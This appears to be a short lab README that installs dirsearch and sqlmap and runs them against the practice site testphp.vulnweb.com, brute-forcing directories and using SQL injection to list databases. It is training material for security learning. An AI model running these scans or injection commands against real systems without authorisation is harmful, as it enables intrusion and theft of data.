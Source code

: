 -
## STEP 1: Advance Linux Commands:

[image advanced command part 1](image.png)
[image advanced command part 2](image_1.png)

## STEP 2: Installing GitHub Tools

### dirsearch

```bash
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u http://testphp.vulnweb.com
```

[image installing dirsearch](image_2.png)

### SQLMap

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --version
```

[image installing sqlmap](image_3.png)

## **STEP 3: Launch Attacks on** **testphp.vulnweb.com**

### **Directory Brute Forcing via dirsearch**

```bash
python3 dirsearch.py -u http://testphp.vulnweb.com
```

[image diectoy brute force](image_4.png)

### SQL Injection via sqlmap

```bash
python3 sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs
```

[image dumping DB](image_5.png)
